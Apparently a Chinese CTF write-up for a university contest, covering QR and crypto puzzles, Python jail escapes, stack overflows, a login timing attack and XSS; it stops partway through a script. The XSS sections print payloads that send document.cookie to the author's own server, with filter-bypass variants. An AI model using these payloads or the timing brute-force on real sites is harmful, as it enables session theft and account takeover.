

# Writeup by Renatus



## 二维码的瘦身

```python
# 这份代码是关于这张图片是如何生成的
import qrcode
import re
import cv2
import numpy as np
from flag import flag

assert re.match(r'^fductf{[a-zA-Z0-9_]{88}}$', flag)

qr = qrcode.QRCode(error_correction=qrcode.constants.ERROR_CORRECT_M, box_size=2, border=1)
qr.add_data(qrcode.util.QRData(flag * 2))
img = np.array(qr.make_image(), dtype=np.float64)[16:, 16:]
tmp = np.ones((img.shape[0] + 2, img.shape[1] + 2), dtype=np.float64)
tmp[2:, 2:] = img
cv2.imwrite('flag.png', tmp * 255)
```

观察代码，可以发现二维码生成时，其四周的定位图案被裁剪掉了。对此，我通过与 flag 同等长度的数据，生成了一个完整的二维码，再将这块被裁剪的二维码粘贴到其所对应的位置，随后就可以直接通过扫码得到 flag，如下图所示。


> fductf{mGF95iiMjf1bdXyR8XXMz0CvHH3CaFBlYOQuy2LGpdTUE1mNfKsDwP0Fq4FrX0DzFDEshZ9Im9keU2l39CgfoHfo}

## 二维码的毁容 [FAILED]

没做出来，之前想简单训个 CNN 对每个像素做二分类由此重建二维码来着，但没实现。

## 什么是Cimbar码

一开始给的 Cimbar 码扫不出来，我还以为要学习一下原理，自己重新实现一个编解码器，研究了半天源码...后来附件更新，直接用 `libcimbar` 就能直接解析出数据了。解析后，发现是一张如下的图片。


可以发现背景的上下边缘有两串正反斜杠符号，并通过空格分成了许多组。简单验证一下 flag 的前缀 `fductf`，可以发现第一行的第一和第六组斜杠是相同的，由此认定是某种简单确定的编码方案。根据各组符号数量不同，可以合理猜测是摩斯电码。但标准的摩斯电码并没有 `{}_` 等符号（至少维基百科上没有），所以我又去找了一些支持广义符号的摩斯电码编解码网站，发现解码的结果比较合理。所以就根据图片，手动输入了所有的摩斯电码，得到最终 flag。

> fductf{lynchpin_haven't_be_s01ved_yet_p1ease_stand_by_h3r_side}

## net_traffic

给了一个 pcapng 文件，用 Wireshark 打开（现装的）。按照 length 对请求排序，从大到小检查，发现有一个请求的数据无法显示出 ascii，但也都是各种 hex 值，于是追踪该 TCP 流，显示所有数据，用 unicode 解析了一下，发现是周杰伦七里香的歌词。

发现字里行间有乱码，但一开始不知道是干嘛的，尽管猜测是 Steganography，但还是去研究别的流了，结果看了半天没看出来啥。后面仔细看了下歌词文本，发现乱码形式差不多，都是 `[U+202C]` 之类的，所以搜索了一下，发现是零宽度字符隐写，并且是默认的形式。于是直接把文本丢进去解码，就得到了 flag。


> fductf{U_f0und_flag_hidden_in_lyric}

## enc_net_traffic

包含了简单的加密，我们仍然根据数据长度排序，可以找到加密方式，是一个简单的小素数 RSA。然后一样是追踪 TCP 流，截取加密数据部分，解密后即可得到 flag。

> flag{423101ef-cc3d-462f-ab92-f1035a96ce28}

## 签到

有点忘了是啥了，是关注公众号送 flag 吗？

> fductf{H3llo_Fr0m_S1x5tars!}

## FDUKindergarten

*python jail 逃逸。在遥远的 2019 年的 CTF 校赛上，我记得似乎也有类似的东西。那时候 C/C++ 写的很熟练，但 python 几乎完全不会，挺怀念的*

```python
WELCOME = '''
  _     ______      _                              _       _ _
 | |   |  ____|    (_)                            | |     (_) |
 | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
 | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |
 | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
 |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
               __/ |
              |___/
'''

print(WELCOME)

print("Welcome to the python jail")
print("Let's have an beginner jail of calc")
print("Enter your expression and I will evaluate it for you.")
input_data = input("> ")
print('Answer: {}'.format(eval(input_data)))
```

第一道题是有爱的签到，没有任何限制，直接 `eval` 且贴心地 `print` 了出来。所以我们就先 `import os` 看一下目录文件，发现直接就有 `flag`，那就再直接 `open` 读取就好。

```python
>>> exec("import os\nprint(os.listdir('.'))")
>>> open('flag').read()
```

> fductf{???} （没记录 flag

## FDUJail

```python
valid_chars = '(abcdefghijklmnopqrstuvwxyz)'

hello = """
░▒▓████████▓▒░▒▓███████▓▒░░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░░▒▓██████▓▒░░▒▓█▓▒░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░
░▒▓██████▓▒░ ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░▒▓████████▓▒░▒▓█▓▒░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓███████▓▒░ ░▒▓██████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓████████▓▒░
"""

def study_in_fdujail(payload):
    return payload.count('f') == 1 and payload.count('d') == 1 and payload.count('u') == 1


def found_cheating_by_teacher(payload):
    return [char in valid_chars for char in payload] != [True for char in payload]


def begin_test(payload):
    eval(payload, {}, {})


print(hello)
input_payload = input("> ")
if not study_in_fdujail(input_payload):
    print("You are not in FDUJail!")
elif found_cheating_by_teacher(input_payload):
    print("Cheating detected!")
else:
    begin_test(input_payload)
```

本题对字符集和命令形式做出了额外限制，且没有全局和本地的变量访问。不过没禁用一些常用函数。直接套进去 `input`，随后就可以绕开字符限制了。那么怎么保证是在 FDU 校内呢？可以加入一些无关紧要的成分，比如 `float`, `id` 这些，放到 `input` 参数里，这样就把 `FDU` 凑齐了。

```python
>>> eval(input(id(float())))
>>> print(open('flag').read())  # eval(nput()) 的输入
```

> fductf{FuDan_DaXue_BaWo_HaiCanLe_87a312d42e37}

## FDUPrison

```python
from flag import flag
backup_input = input
backup_print = print
backup_eval = eval
backup_len = len
input_locals = {'rank': 3.3}

banned_words = ['local', 'global', 'init', 'new', 'attr', 'co', 'update' 'replace', 'module', 'sys', 'std', 'io']

valid_chars = '(abcdefghijklmnopqrstuvwxyz)=._,:'

hello = """
░▒▓████████▓▒░▒▓███████▓▒░░▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓███████▓▒░░▒▓█▓▒░░▒▓███████▓▒░░▒▓██████▓▒░░▒▓███████▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓██████▓▒░ ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓███████▓▒░░▒▓█▓▒░░▒▓██████▓▒░░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░      ░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░░▒▓█▓▒░
"""

def study_in_fduprison(input):
    return input.count('f') == 1 and input.count('d') == 1 and input.count('u') == 1


def found_cheating_by_teacher(input):
    return [word in input for word in banned_words] != [False for word in banned_words] \
        or [char in valid_chars for char in input] != [True for char in input] \
        or backup_len(input) > 188

def calculate_rank(input):
    backup_eval(input, {}, input_locals)
    rank = input_locals['rank']
    if rank == flag.encode().hex():
        backup_print(f"Congratulations! Your rank is: {rank}")
    else:
        backup_print(f"You failed! Your rank is: {rank}")


print(hello)
globals()['__builtins__'].__dict__.clear()

input = backup_input("> ")
if not study_in_fduprison(input):
    backup_print("You are not in FDUJail!")
elif found_cheating_by_teacher(input):
    backup_print("Cheating detected!")
else:
    calculate_rank(input)
```

直接把 `__builtins__` 都搞没了，局部只有一个 `rank` 变量，全局啥也莫得。字符限制仍然很严格，这就比较折磨了，搞了很久，有了 cheetsheet 的提示之后思路开阔了一些，但纠结于怎么搞出来 `open` 函数，或者 `importlib` 把 `flag` 调出来，由此衍生出如何表示数字、如何迭代遍历列表等等问题。结果发现都不是太好解决，想要压缩进长度限制更是难上加难。比赛最后一天看到新的提示，说重写 `__eq__`，那就豁然开朗了。

之前的积累成果是，在没有单双引号的情况下，构造（有限制的）字符串。其实这也是比较朴素的想法，就是利用 `dict(arg_name=...)` 这样的形式，此时 `arg_name` 会以字符串形式成为 `dict` 中的一个键。

我们既然要 override `__eq__`，直接赋值是不行的，因为 `eval` 不支持这种操作。那么，我们看到字符集中允许 `:` 出现，这东西其实有用的出现场合很少，能想到的，一个是 `lambda` 表达式，还有一个就是 walrus operator，海象运算符。walrus operator 可以放开 eval 不允许赋值的限制，让一个变量在赋值后立刻用于表达式计算，并且赋值保留。

但是，经过尝试发现，walrus operator 只能给一个变量名使用，而不能给一个引用，比如 `rank.__class__.__eq__` 这种赋值。那我们就考虑 override 类方法的其他路径，比如定义新的类，并继承。显然我们需要一种紧凑的方式实现类定义，于是经过学习，找到了 `type` 函数。`type(class_name, bases, vars_dict)` 能够直接创建一个新的 `class`，因为 `type` 实际上是一个元类，`metaclass`，也就是类的类。其生成的类，其实是其的一个对象。我们传入 `bases`，可以指定这个新类所继承的类，`vars_dict`，根据我们之前的尝试，可以以类似 `dict(__eq__=...)` 的形式，对 `__eq__` 方法进行 override。所以我们剩下的考虑只有如何选定 `bases` 和用于 override `__eq__` 的方法了。

*补充说明，经过试验，发现 `__builtins__` 是定义了的，并且是一个 `dict`，所以我们可以直接用 `__builtins__.__class__` 来生成新的 dict。

选定这块，考虑了比预期久的多的时间，因为后来意识到，`if rank == flag.encode().hex():` 部分是没有 `print` 的，即便直接返回了 flag 的值，也看不到。所以一种合理的考虑就是，`__eq__` 需要被某个能覆写自身数据的函数覆写，但考察了一圈 `int, str, bytes, dict, list, tuple, ...` 的 `__dict__` ，感觉实现上都颇吃力。而（原地的）四则运算，搞笑的是，基本都包含 `FDU` 中的一个或多个字母，尤其是 `__add__`，更是离谱。难道就这么完了吗？

那当然是不行的。我突然想起来一个 Exception，`KeyError`，并且它会慷慨地告诉我们，是什么 key 发生了 `KeyError`。那我们其实可以让 flag 作为引起 `KeyError` 的 key，这样就会被异常处理自然地打印出来，不就很妙吗？结果，经过尝试，我发现只有 `dict` 的 `__getitem__` 会有这种效果，其他的因为 `index` 必须是 `int`，所以会先报告类型错误，而看不到 key 的值。所以，我们最后就需要，将 `dict` 放入 `bases` 也就是继承的类中，同时将 `__eq__` 覆写为 `dict.__getitem__`，这样需要构造两次 `dict`。然而，之前的探索中，每构造一次 `dict`，都必须消耗一个字母 `u`，也就是 `__builtins__.__class__`，这会导致我们离开 FDU。别的路难道走不通吗？我能想到的还有 `().__class__.__dict__`，然而这样得到的是一个 `mappingproxy`，要想得到 `dict`，需要做一次 `copy()`，然而 `co` 这个字串被（巧妙地）禁用掉了（与此同时，禁掉了 `encode`, `decode` 等等诸多重要的可能路径），所以就是没办法了吗？

诶，再回到刚开始，我们的 colon 符号和 walrus operator。我们能不能用定义变量的方式，只构造一次 `dict` 却多次使用呢？经过试验，发现是可以的，很不错。我们直接套一个 `().__class__.__class__(z:=__builtins__.__class__)`，`z` 是自定义的变量名，这样就可以直接当成 `dict` 用了。我们后面的操作就也明确了，首先构造 `type` 也就是 `z.__class__`（通过定义变量的方式，我们也成功地大幅优化了 payload 长度），然后是对 `rank` 对应 class 的覆写，我们这里直接将 `rank` 覆写为新类的对象了。传入 `dict` 作为继承类 `rank:=z.__class__(z.__name__,(z.__name__.__class__,),z(__eq__=z().__getitem__))()` （这是提交时的样子，因为反复试验，忘了用 `dict` 而是用 `str` 作为继承类了，结果仍然能过），注意 `__getitem__` 需要用 `dict` 对象而非 `dict` 类本身的。最后，为了保证我们在 FDU，发现还有 `F` 和 `D` 两字母未用，所以加上后缀 `().__format__,().__dir__` 即可。这样，构造完整形式的 payload 如下：

```python
().__class__.__class__(z:=__builtins__.__class__),z.__class__(rank:=z.__class__(z.__name__,(z.__name__.__class__,),z(__eq__=z().__getitem__))()),().__format__,().__dir__
```

我们就会得到一个 KeyError，其中的 key 就是 flag 的 hex 值 `6664756374667b576f5a61695f334469616e335f44615875655f44656e674e695f3731633333376133303766357d`，这样就得到最终的 flag 了。

> fductf{WoZai_3Dian3_DaXue_DengNi_71c337a307f5}

*这是很有意思的一个题目，我学到了很多。*

## 问卷反馈

似乎不用填问卷也有 flag？（

> fductf{???} （忘了记录了

## Alice与Bob的小纸条

简单观察，猜测是词频分析。不过我还是不太喜欢这样，所以就手动破解了。先看这一词段 `14scbiqem`，在相对合理的文本情况下，可以直接猜测是 `14yearold`。结果发现完全就是这样，并且直接开了个很好的头，后面很容易破解出来了。比较快的是看双/三字母单词，然后更长的单词会自动现出大概样貌。

最后根据文本说明，自己写出 flag 即可。

> fductf{WrodFerqeuncy}

## Jeff Dean笑话

作为密码学签到题，那肯定是 $n$ 支持直接分解。看了一下确实是这样，其中一个是小素数。那我们直接通过求解出 $c$ 相对 $\varphi(n)$ 的逆元也就是秘钥，然后直接快速幂解密就好。最后表示为 hex 序列，再转回字符串即可得到 flag。

> fductf{small_prime_factor_in_rsa_is_dangerous_F270BA33AA791B45}

## Evil_RLWE [FAILED]

其实感觉能做，先对多项式运算手动计算了一下，看了一下每个结果项的构成，发现是类似循环卷积叠上非循环卷积的形式，然后就不会了...上网学习了一下，发现似乎需要构造格运算？完全不懂。这两天也有点忙所以最后就没时间学习了，感觉有点可惜。

## Ez_dlp

一看 `sage` 文件，是 ECC 加密，于是现场学习了一下，学了半天...（也包括安装 `sage`，`Crypto` 库之类的操作）。然后学会了，发现原题用的离散椭圆曲线的 order 是等于质数域大小的，于是会导致 smart attack。学习了一下原理，实现并跑了一下，就得到了 flag。

> fductf{sm@rT's_@t7AcK_1S_SmAr7_:P_!!!!!!!}

## Randoms [OMITTED]

没时间看题，不知道是啥（

## 看图算数Ⅱ

*《95%的人解不出的题,最终的解却令人震惊》*

不错，按照个人水平，到了椭圆曲线上的 Weierstrass 变换这步就想不到了。学习了一发，发现数学技巧确实挺 NB。不过我想，对于我等（非数论代数专业）人士，体会体会精神足矣。（实际连分母规约合并同类项都懒得做，直接找到一个写的很不错的调用 [Magma](http://magma.maths.usyd.edu.au/calc/) 的脚本，直接改了下初始系数，暴力了一个整数零点，就自动跑出结果了。

```pascal
R<x,y,z> := RationalFunctionField(Rationals(),3); 
problem := ((x/(y+z) + y/(x+z) + z/(x+y)) - 37/6) ; 
Evaluate(problem,[0,1,6]); 
problem*Denominator(problem); 
P2<x,y,z> := ProjectiveSpace(Rationals(),2);
C := Curve(P2, x^3 - 31/6*x^2*y - 31/6*x^2*z - 31/6*x*y^2 - 28/3*x*y*z - 31/6*x*z^2 + y^3 - 31/6*y^2*z - 31/6*y*z^2 + z^3);  // 这步也是自动算出来的，计算机代数系统真是不错
Pt := C![0,1,6]; 
E,f := EllipticCurve(C); 
g := f^-1; 
for n:= 1 to 10000 do 
    nPt_inE:=n*f(Pt); 
    nPt_inC:=g(nPt_inE); 
    X := Numerator(nPt_inC[1]); 
    Y := Numerator(nPt_inC[2]); 
    Z := Denominator(nPt_inC[1]); 
  if ((X gt 0) and (Y gt 0)) then 
       printf "n=%o\nX=%o\nY=%o\nZ=%o\n",n,X,Y,Z; 
       printf("GOT IT!!! x=apple, y=banana, z=pineapple, check the above solution\n"); 
     break; 
  else 
     printf "Nee, some coordinate was negative above, I keep in the loop\n\n"; 
  end if; 
end for;    
if Evaluate(problem, [X,Y,Z]) eq 0 then 
    printf "I evaluated the point to the original problem and yes, it worked!\n"; 
else 
    printf "Mmm this cannot happen!\n"; 
end if; 
```

> fductf{EllipseCurve_15_funny!}

## EzCBC [OMITTED]

没看题

## eazy_sage

说实话第一时间有点没整明白这是在干嘛。不过还是直接暴力了 26 个 shift 的结果，每次随机选一个提交。一开始没仔细看内容，运气不错，第二次就蒙对了。后来发现是 flag 内容是 this_is_crypto。

> fductf{th1s1scry9t0}

## test-your-nc

~~签到~~测试题拿了个一血（乐

> fductf{???} （忘了

## 丫丫历险记

一看就是要把值覆盖上，同时不要破坏 canary。懒得细算了，从 15 开始试 `w <index> 1`，直接就 sh 了。

> fductf{???} （忘了

## 丫丫历险记2

基础栈溢出，用 IDA 看了一下，发现是数组 index 13 处存了返回地址。这会返回到 `main` 函数下调用 `test_array_op` 的下一条语句，即 `0x00000000000013C7`。


然后我们看一下需要跳转的位置，我们选定 call system 的参数准备语句处，即 `0x0000000000001205`。


算一下偏移量，需要减去 $450$，那就直接 `r 13` 然后 `w 13 <value-450>` 就可以了。

> fductf{3e034345-8341-4794-8d65-17ed93fe44cf}

## 丫丫历险记3 [OMITTED]

没看题

## HH历险记 [FAILED]

看题了，临比赛结束一小时去学习了一下格式化字符串的 PWN，基本思路明白了，但是有点细节还是没太搞懂，所以也没做出来。

## HH历险记2 [OMITTED]

没看题

## HH历险记3 [OMITTED]

没看题

## GhostWrite [OMITTED]

没看题

## FUN_FILE [OMITTED]

没看题

## 草率的毕业设计

显然 username 是 `admin`，然后 salt 、加密实现和密码字符集都给出了，直接暴力每一位密码即可。

## 无比健壮的毕业设计

salt 未知，加密迭代很多次，那显然会比较慢吧，函数名也提示了。用一个比较稳定的网络，每位跑数次取请求所需的平均时间，哪一位用时最长就说明哪一位的密码对上了。因为比赛平台不太稳定，可以写个脚本，全自动化暴力并保存结果，下次启动直接跳过已经计算好时间开销的枚举字符。

```python
import os
import json

def bf_measure_time(test_time=5):
    import time
    username = 'admin'
    sured_password = 'fductf{'
    session = requests.Session()
    while len(sured_password) < 18:
        step = len(sured_password)
        if os.path.exists(f'passwdch_time_map_{step}.json'):
            passwdch_time_map = json.load(open(f'passwdch_time_map_{step}.json', 'r'))
        else:
            passwdch_time_map = {}
        max_time, max_time_ch = 0, None
        for passwd_ch in tqdm(string.ascii_letters + string.digits + "_{}"):
            if passwd_ch in passwdch_time_map:
                mean_time_cost = passwdch_time_map[passwd_ch]
                if mean_time_cost > max_time:
                    max_time, max_time_ch = mean_time_cost, passwd_ch
                continue
            password = sured_password + passwd_ch
            password += 'a' * (18 - len(password))
            mean_time_cost = []
            for _ in range(test_time):
                st_time = time.time()
                resp = session.post('http://10.20.26.32:32783/login', data={'username': username, 'password': password}, timeout=10)
                ed_time = time.time()
                assert resp.status_code == 200
                time.sleep(1)
                mean_time_cost.append(ed_time - st_time)
            mean_time_cost = sum(mean_time_cost) / test_time
            if mean_time_cost > max_time:
                max_time, max_time_ch = mean_time_cost, passwd_ch
            print(f'passwd_ch: {passwd_ch}, mean_time_cost: {mean_time_cost}')
            passwdch_time_map[passwd_ch] = mean_time_cost
            json.dump(passwdch_time_map, open(f'passwdch_time_map_{step}.json', 'w'), indent=4, ensure_ascii=False)
        sured_password += max_time_ch
        print(f'password: {sured_password}, max_time_ch: {max_time_ch}, max_time: {max_time}')
        json.dump(passwdch_time_map, open(f'passwdch_time_map_{step}.json', 'w'), indent=4, ensure_ascii=False)


if __name__ == '__main__':
    while True:
        try:
            bf_measure_time()
            break
        except Exception as e:
            time.sleep(5)
    pass
```

> fductf{aZ3Lx6zUJQ}

## 一模一样的毕业设计

看到这个 sha512 `cf83e1357eefb8bdf1542850d66d8007d620e4050b5715dc83f4a921d36ce9ce47d0d13c5d85f2b0ff8318d2877eec2f63b931bd47417a81a538327af927da3e`，可以知道是表示空串。那么这就很有意思，既要 `password.length >= 2048`，json 还有传输限制，还要 password 反转后是空串。那显然就是要利用一下 js 的弱类型特性。本地用 nodejs 调试一下，发现

```javascript
{"length": "renatus", "renatus": "", 0: ""}
```

是可以满足要求的，那就用这个了。直接 python requests 一下即可。

```python
import os
import requests
import hashlib

payload = {
    "username": "admin",
    "password": {"length": "renatus", "renatus": "", 0: ""},
}

def sha512(s):
    sha512_hash = hashlib.sha512()
    sha512_hash.update(s)
    hash_value = sha512_hash.hexdigest()
    return hash_value

# print(sha512(payload['password']))
# exit(0)
resp = requests.post('http://10.20.26.32:32786/', json=payload)

print(resp)
with open('request.html', 'w') as f:
    f.write(resp.text)
```

> fductf{json_in_nodejs_is_very_dangerous_A77014BF}

## 一样一模的毕业设计 [FAILED]

搞了最久的一道题，各种操作也没绕开 php `file_get_contents` （或者说不是这样做的？

（来，wp 学习一下

## JJ历险记

一看就是 HTML 注入，我们本地搞个有公网 ip 的接收端（或者就是校内服务器，比赛平台实测可以访问到）。然后我们需要先 comment 一下，再点击 test 把注入的 js 在后台执行一遍，并向接收端发送 cookies。然后从本地接收端日志提取 cookies，也就是 flag。

注入 payload 这样写的。

```html
<script>fetch("http://<my_ip>:5000/login?cookie="+document.cookie);</script>
```

> fductf{???} （忘了

## JJ历险记2

有了一些屏蔽词，不能那么直白地注入了，那就想到用各种 event ，比如 onclick 等，在触发 event 时自动发送后台 cookies。经过尝试，发现这个能用。

```html
</p><body onpageshow="fetch('http://<my_ip>:5000/login?cookie='+document.cookie)">renatus!</body><p>
```

> fductf{I_4m_just_hitt1ng_my_str1d3_94c18194abc6}

## JJ历险记3

有了更多屏蔽词。根据提示，我们直接用 cheetsheet 暴力一遍，把所有的 payload 都提交上去（当然，大部分根本交不上，会直接过滤掉），然后直接 Test，发现也得到了 cookies。之后可以发现是这个起作用了。

```html
<svg><animateTransform onbegin="fetch('http://<my_ip>:5000/login?cookie='+document.cookie)" attributeName="transform">renatus!</animateTransform></svg>
```

> fductf{I_4m_th3_m4ster_0f_xss_73c6c18d8e06}

## Maze [OMITTED]

没看题

## GoGoGo [FAILED]

简单看了一下，本来想学习下 Go 的逆向的，但是比较忙没时间。

## baby64

一眼 base64，不过还是用 IDA 把代码仔细看了一遍，学习了 base64 的算法（

但是似乎有点噪音，经过观察，发现偶数位的 hex 需要加一，奇数位减一。然后就可以正常 decode 了。

```cpp
#include <bits/stdc++.h>
using namespace std;

string k = "YnQ0Z2Qnf111bX4eNWMeaiA1W2QpYU8nbWJycE9xanU8Dh00";
string chs = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
string ans = "";


int main(){
    // uint8_t x = 1;
    // for (int i = 0; i <= 16; i++){
    //     printf("%u", x);
    //     x <<= 1;
    // }
    for (int i = 0; i < k.length(); i += 4){
        uint8_t v17 = 0, v18 = 0, v19 = 0;
        uint8_t v13 = (uint8_t)chs.find(k[i]), v14 = (uint8_t)chs.find(k[i+1]), v15 = (uint8_t)chs.find(k[i+2]), v16 = (uint8_t)chs.find(k[i+3]);
        v13 += 1 - 2 * (v13 & 1);
        v14 += 1 - 2 * (v14 & 1);
        v15 += 1 - 2 * (v15 & 1);
        v16 += 1 - 2 * (v16 & 1);
        v17 = v13 << 2;
        v17 |= v14 >> 4;
        // printf("%u,", v17);
        v18 = (v14 & 0xf) << 4;
        v18 |= v15 >> 2;
        // printf("%u,", v18);
        v19 = (v15 & 0x3) << 6;
        v19 |= v16;
        // printf("%u\n", v19);
        ans += (char)v17;
        ans += (char)v18;
        ans += (char)v19;
    }
    cout << ans << endl;
    cout << ans.length() << endl;
    return 0;
}
```

> fductf{M4in_1s_n0t_the_fir3t_0ne}

## functions

显然一道数学题。首先是如果是纯位运算就好了，这样可以直接搞出来 binary table。不过经过仔细思考，可以发现，因为每个位置都是 ascii 字符，且必须是可打印的，所以一定小于 128，这样在 byte-level 上，选择并没有很多，且两个变量的加法不会溢出。这样我们直接在 byte-level 上暴力，枚举每个 value 的每个 byte，每个 byte 的对应位置用位运算筛出所有可能的组合，这是第一阶段。这样，我们每个 byte-level（显然，一共有 8 个 level）上，都有一些长度为 4 的字符串，表示一种 values 在该 byte-level 上的组合。

第二阶段，我们需要组合这 8 个 level，用剩下的非位运算的算式做判定。此时发现组合还是太多，有 33 亿个，所以又手动筛了一波，去掉了含有不可打印字符以及不太可能出现在 flag 中字符的组合。最后得到的结果是约 1.5 亿个，这样就可以直接暴力了。为了防止中途发生错误，导致枚举浪费的问题，我们可以一开始将每个 byte-level 的组合随机 shuffle 一下，这样无论何时打断、出错就都不会浪费了。运气不错，10% 还没跑完，就得到了一个有效组合。序列化为字符串发现果然是合理的 flag，提交也通过了。

```python
import os
import json
from tqdm import tqdm


def analysis_2_binary_table():
    # (value[1] & (value[1] & value[2] | ~(value[1] | value[0])) & value[0] | value[3] & value[0] & value[2])
    result = {}
    for i in range(1 << 4):
        value = []
        for j in range(4):
            value.append((i >> j) & 1)
        exp = (value[1] & (value[1] & value[2] | ~(value[1] | value[0])) & value[0] | value[3] & value[0] & value[2])
        result[''.join([str(x) for x in value])] = exp
    result = {k: v for k, v in sorted([(k, v) for k, v in result.items()], key=lambda x: x[1])}
    json.dump(result, open('abalysis_2_binary_table.json', 'w'), indent=4, ensure_ascii=False)


def analysis_1_binary_table():
    # ((value[3] ^ (~(value[4]) | value[1]) & value[0]) & value[2])
    result = {}
    for i in range(1 << 5):
        value = []
        for j in range(5):
            value.append((i >> j) & 1)
        exp = ((value[3] ^ (~(value[4]) | value[1]) & value[0]) & value[2])
        result[''.join([str(x) for x in value])] = exp
    result = {k: v for k, v in sorted([(k, v) for k, v in result.items()], key=lambda x: x[1])}
    json.dump(result, open('abalysis_1_binary_table.json', 'w'), indent=4, ensure_ascii=False)


def analysis_3_binary_table():
    # ((value[3] & ~(value[2] & value[0]) | value[4] & value[2] | value[5] & value[1] & ~value[0]) ^ value[1])
    result = {}
    for i in range(1 << 6):
        value = []
        for j in range(6):
            value.append((i >> j) & 1)
        exp = ((value[3] & ~(value[2] & value[0]) | value[4] & value[2] | value[5] & value[1] & ~value[0]) ^ value[1])
        result[''.join([str(x) for x in value])] = exp
    result = {k: v for k, v in sorted([(k, v) for k, v in result.items()], key=lambda x: x[1])}
    json.dump(result, open('abalysis_3_binary_table.json', 'w'), indent=4, ensure_ascii=False)


# analysis_1_binary_table()
# analysis_2_binary_table()
# analysis_3_binary_table()


def analysis_bytewise():
    value = ['fductf{', '', '', '']
    formula_value = [0x2050472E53002A03, 0x4860466062306422, 0x2A00033A32352E61]
    possible_comb = {}
    for i in reversed(range(8)):  # from high byte to low 
        guess_value = []
        if i == 0:
            for v4 in tqdm(range(128)):
                for v5 in range(128):
                    for v6 in range(128):
                        for v7 in range(128):
                            if  ((v7 ^ (~(v7 + v5) | v5) & v4) & v6) == int('0b'+format(formula_value[0], '064b')[8*i:8*(i+1)], base=2) and \
                                (v5 & (v5 & v6 | ~(v5 | v4)) & v4 | v7 & v4 & v6) == int('0b'+format(formula_value[1], '064b')[8*i:8*(i+1)], base=2) and \
                                ((v7 & ~(v6 & v4) | (v4 + v6) & v6 | (v5 + v7) & v5 & ~v4) ^ v5) == int('0b'+format(formula_value[2], '064b')[8*i:8*(i+1)], base=2):
                                    if i not in possible_comb:
                                        possible_comb[i] = []
                                    possible_comb[i].append(''.join([chr(v4), chr(v5), chr(v6), chr(v7)]))
                                    print(f"got {''.join([chr(v4), chr(v5), chr(v6), chr(v7)])}")
                                    json.dump(possible_comb, open('possible_comb.json', 'w'), indent=4, ensure_ascii=False)
        else:
            v4 = ord(value[0][7-i])
            for v5 in tqdm(range(128)):
                for v6 in range(128):
                    for v7 in range(128):
